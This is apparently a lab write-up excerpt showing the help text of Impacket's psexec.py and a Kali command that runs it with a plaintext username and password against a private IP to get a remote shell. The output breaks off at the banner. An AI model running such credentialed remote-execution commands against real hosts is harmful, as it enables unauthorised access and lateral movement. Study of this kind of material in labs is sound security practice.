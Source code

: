 usage: psexec.py [-h] [-c pathname] [-path PATH] [-file FILE] [-ts] [-debug] [-hashes LMHASH:NTHASH]
                 [-no-pass] [-k] [-aesKey hex key] [-keytab KEYTAB] [-dc-ip ip address]
                 [-target-ip ip address] [-port [destination port]] [-service-name service_name]
                 [-remote-binary-name remote_binary_name]
                 target [command ...]

PSEXEC like functionality example using RemComSvc.

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>
  command               command (or arguments if -c is used) to execute at the target (w/o path) -
                        (default:cmd.exe)

optional arguments:
  -h, --help            show this help message and exit
  -c pathname           copy the filename for later execution, arguments are passed in the command option
  -path PATH            path of the command to execute
  -file FILE            alternative RemCom binary (be sure it doesn't require CRT)
  -ts                   adds timestamp to every logging output
  -debug                Turn DEBUG output ON

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based
                        on target parameters. If valid credentials cannot be found, it will use the ones
                        specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)
  -keytab KEYTAB        Read keys for SPN from keytab file

connection:
  -dc-ip ip address     IP Address of the domain controller. If omitted it will use the domain part (FQDN)
                        specified in the target parameter
  -target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as
                        target. This is useful when target is the NetBIOS name and you cannot resolve it
  -port [destination port]
                        Destination port to connect to SMB Server
  -service-name service_name
                        The name of the service used to trigger the payload
  -remote-binary-name remote_binary_name
                        This will be the name of the executable uploaded on the target

# seems like bob is legit and bill is not:
(kali㉿kali)-[/usr/share/doc/python3-impacket/examples]
└─$ python3 psexec.py bob:'!P@$$W0rD!123'@10.10.213.105                                                 1 ⨯
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
